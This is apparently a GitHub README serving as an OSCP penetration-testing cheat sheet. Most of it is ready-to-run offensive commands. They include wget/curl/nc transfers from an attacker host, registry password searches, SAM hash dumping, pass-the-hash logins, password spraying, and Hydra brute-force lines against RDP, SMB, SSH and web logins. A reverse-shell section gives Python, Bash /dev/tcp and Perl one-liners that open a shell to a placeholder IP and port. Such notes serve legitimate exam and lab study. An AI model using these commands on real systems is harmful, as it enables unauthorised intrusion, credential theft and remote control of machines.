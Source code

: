 ∂# OSCP-handytools
- https://github.com/seal9055/oscp-notes/blob/main/README.md
- https://github.com/rodolfomarianocy/OSCP-Tricks-2023/tree/main
- https://github.com/Ak500k/oscp-notes?tab=readme-ov-file
- https://zweilosec.github.io/posts/upgrade-linux-shell/
  
# Wordlists
```
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/usr/share/seclists/Discovery/Web-Content/common.txt
/usr/share/seclists/Discovery/Web-Content/big.txt
/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
/usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt
```

# Post Exploitation Linux
## File upload
- Starting Web Server
`python3 -m http.server 80`

- Filetransfer
```
wget <LHOST>/<file>
curl http://<LHOST>/<file> -o <output-file>
echo "GET /<file> HTTP/1.0" | nc -n <LHOST> 80 > <out-file> && sed -i '1,7d' <out-file>
```

- Secure Filetransfers
```
on target:  ncat -nvlp <port> --ssl > <out-file>
on kali:  ncat -nv <RHOST> <RPORT> --ssl < <file-to-send>
```

# Passwords
- Use chisel to remotely forward port 445, and use winexe to log in
`winexe -U <user>%<password> //<RHOST> cmd.exe`

- Check for passwords
`reg query HKLM /f password /t REG_SZ /s`
`reg query HKCU /f password /t REG_SZ /s`

- Weak Permissions on Sam Files
`python2 pwdump.py <SYSTEMFILE> <SAMFILE>`

- Cracking the password
`hashcat -m 1000 --force <hash> <wordlist>`

- PTH
`pth-winexe -U '<entire-hash>' //<RHOST> cmd.exe`


# Password Spraying
- Create Password List
`crunchy <length> <length> -t <pw-core>%%%% `

- Spray
`rowbar -b rdp -s <ip>\32 -U users.txt -C pw.txt -n 1`

# Hashcracking
- John
`john --format=<fomrat> --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

- Hashcat
```
hashcat -m <hashid> -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt -O  
hashcat -m <hashid> -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt -O -r /usr/share/hashcat/rules/best64.rule  
cat pw | hashcat -r/usr/share/hashcat/rules/best64.rule --stdout > wordlist.txt
```

# Bruteforcing
RDP Brute Force - Hydra
`hydra -L /usr/share/wordlists/rockyou.txt t -p "<password" rdp://<IP>`

SMB Brute Force - Hydra
`hydra -L /root/Desktop/user.txt -P /usr/share/wordlists/rockyou.txt <IP> smb`

SSH Brute Force - Hydra
`hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>`

HTTP POST Login Form (login forms) Brute Force - Hydra, brute force username and password
`hydra -l <user> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:usernamefieldname=^USER^&passwordfieldname=^PASS^:Login failed text" -vV -f`

HTTP POST Login Form (login forms) Brute Force - Hydra, bruteforce password only
`hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -1 admin -P /usr/share/wordlists/rockyou. txt -vV -f`
![image](https://github.com/redcountryroad/OSCP-shortsheet/assets/166571565/a78ffd2d-a33b-4f53-8574-9b6a4a7f4c40)

HTTP GET Login Form Brute Force - Hydra
`hydra -l <username> -P /usr/share/wordlists/rockyou.txt -f <IP> http-get /login`

# MISC
SSH Encrypted
`/usr/share/john/ssh2john`

Crack Zip Pw
`fcrackzip -uvDp /usr/share/wordlists/rockyou.txt file.zip`

Tcp Dump
`sudo tcpdump -i tun0 icmp`

Images
- `binwalk <image>`
- `binwalk -Me <image>`

# Upgrade Linux Shell
check python version used in box
`which python python2 python3`

Method 1: using Python (one liner)
- `python -c 'import pty;pty.spawn("/bin/bash")'`
- `python3- c 'import pty;pty.spawn("/bin/sh")'`
- `stty raw -echo`

Method 2: using Python (multi liner)
```bash
python -c 'import pty;pty.spawn("/bin/bash")' 
cltr-z
stty raw -echo;fg  fg
export TERM=xterm
stty -a ; stty rows columns 136 rows 32
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Method 3: Using Script
- `script -qc /bin/bash /dev/nullscript -qc /bin/bash /dev/null`

## references
## upgrade shell
- https://fareedfauzi.gitbook.io/oscp-playbook/reverse-shell/interactive-ttys-shell
- https://github.com/pythonmaster41/Go-For-OSCP
- https://www.schtech.co.uk/linux-reverse-shell-without-python/
- https://github.com/RoqueNight/Reverse-Shell-TTY-Cheat-Sheet

```bash
#Python
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<[IP]>",<[PORT]>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

#non python shell (not 100%)
#This will break you out of the pseudo terminal and into a tty shell, you can then su and carry out all other terminal based commands
/usr/bin/script -qc /bin/bash /dev/null
stty raw -echo; fg; reset

#Bash
echo os.system('/bin/bash')
/bin/sh -i
exec 5<>/dev/tcp/<[IP]>/<[PORT]> cat <&5 | while read line; do $line 2>&5 >&5; done

#Perl
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'use Socket;$i="<[IP]>";$p=<[PORT]>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

#Ruby:
ruby: exec "/bin/sh"

#Lua
lua: os.execute('/bin/sh')

#From within IRB
exec "/bin/sh"

#From within vi
:!bash

#From within vi
:set shell=/bin/bash:shell

#From within nmap
!sh
```

# Upgrade Windows Shell
`rlwrap nc -lvnp $port`

# improve presentation of shell i.e. browse command history
`rlwrap nc -lvnp $port`

# Tools to make life easier
-> revshell generator
https://www.revshells.com/ 

-> CyberChef
https://gchq.github.io/CyberChef/

-> urlencoder
https://www.urlencoder.org/

-> octal
http://www.unit-conversion.info/texttools/octal/

-> hex
http://www.unit-conversion.info/texttools/octal/

-> IP converter
https://www.silisoftware.com/tools/ipconverter.php

-> How to Zip and Unzip Files Using PowerShell
https://zweilosec.github.io/posts/zip-unzip-files-powershell/ 
